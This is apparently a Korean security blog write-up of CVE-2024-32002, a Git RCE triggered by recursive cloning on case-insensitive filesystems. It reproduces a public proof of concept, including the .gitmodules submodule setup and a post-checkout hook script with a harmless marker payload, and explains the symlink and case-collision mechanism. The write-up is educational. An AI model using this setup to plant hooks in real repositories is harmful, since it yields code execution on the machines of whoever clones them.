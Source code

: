 ```yaml
---
title: "CVE-2024-32002 Exploiting Git RCE via git clone"
description: "git clone 명령만으로 RCE 취약점이 발생한다..?"
author: bde574786
date: 2024-10-27 21:55:00 +0900
categories: [최근 보안 이슈]
tags: [빡공팟, 콘테스트 네뷸라, 최근 보안 이슈, CVE, Git]
image: 
---
```


## **Details**
Git의 git clone 기능에는 저장소의 **하위 모듈(submodule)**을 재귀적으로 함께 클론하는 `--recursive`  옵션이 포함되어 있다. 또한, Git은 **심볼릭 링크(Symbolic Link)**를 지원하여, 이를 통해 저장소의 다른 부분을 참조할 수 있다.
이 취약점은 대소문자를 구분하지 않는 파일 시스템 (Windows, MacOS)에서 발생한다.


## **Affected Versions**
- v2.45.0
- v2.44.0
- <= v2.43.3
- <= v2.42.1
- v2.41.0
- <= v2.40.1
- <= v2.39.3

## **PoC**
⚠️ Warning: 해당 PoC 실행 시 반드시 허가받은 시스템에서만 수행해야 한다.

환경 구축의 제한사항과 편의를 고려하여 이미 만들어진 PoC를 테스트하였다.

> [https://github.com/amalmurali47/git_rce?tab=readme-ov-file](https://github.com/amalmurali47/git_rce?tab=readme-ov-file)

<br>
- Git을 사용해 git_rce라는 이름의 원격 Repository를 클론하는 동시에, 서브모듈을 함께 클론한다.
```bash
git clone --recursive git@github.com:amalmurali47/git_rce.git
```

<br>
- 아래 파일은 Git Repository에서 서브모듈을 추가할 때 사용되는 .gitmodules 구성 파일이다.
- Git이 서브모듈을 클론할 때, 현재 로컬 Repository 루트 경로에 A/modules/x 폴더가 생성되며 url에 지정된 원격 Repository의 악성 후크 파일이 A/modules/x에 클론될 것이다.
```bash
[submodule "x/y"]
	path = A/modules/x  # Local path for the submodule
	url = git@github.com:amalmurali47/hook.git  # Remote repository URL
```

<br>
- 위 서브모듈 url은 [https://github.com/amalmurali47/hook](https://github.com/amalmurali47/hook) 저장소를 가리키고 있으며 해당 저장소에는 hook/post-checkout 경로에는 공격자가 의도한 악성 스크립트가 작성되어 있다.
```bash
#!/bin/bash
echo "amal_was_here" > /tmp/pwnd
calc.exe
open -a Calculator.app
```

<br>
Boom..!!<br>
![image.png](assets/posts/security-issue/2024-10-27/img-001.png)

<br>
## **How It Works**
- **특수 경로의 심볼릭 링크 설정**
    - 공격자는 .git을 가리키는 심볼릭 링크를 저장소 안에 생성하고, 이 링크의 이름을 a로 설정한다.
    - 서브모듈의 경로는 대소문자를 변형하여 설정되며, 이는 대소문자 구분을 하지 않는 파일 시스템(Windows, Mac)의 취약점을 겨냥한다.
- **서브모듈 경로 충돌 유도**
    - Git은 서브모듈을 A/modules/x 경로에 클론하려고 시도하지만, 대소문자 구분이 없는 파일 시스템에서 A와 a가 동일하게 인식된다.
- **경로 우회로 악성 후크 위치 설정**
    - 결과적으로 Git은 서브모듈의 후크 스크립트를 .git/hooks 아래에 배치하게 된다.
    - 이 후크는 공격자의 명령이 포함되어 사용자의 시스템에서 RCE가 발생하게 된다.

<br>

따라서, 사용자가 단순히 해당 Repository를 클론하기만 해도 공격자가 의도한 악성 코드가 실행될 수 있다.
해당 취약점은 Git의 core.sysmlinks 기능이 활성화된 Windows와 MacOS에 취약하다.

<br>
## **Reference**
[https://github.com/amalmurali47/git_rce](https://github.com/amalmurali47/git_rce)<br>
[https://github.com/git/git/security/advisories/GHSA-8h77-4q3w-gfgv](https://github.com/git/git/security/advisories/GHSA-8h77-4q3w-gfgv)<br>
[https://amalmurali.me/posts/git-rce/](https://amalmurali.me/posts/git-rce/)
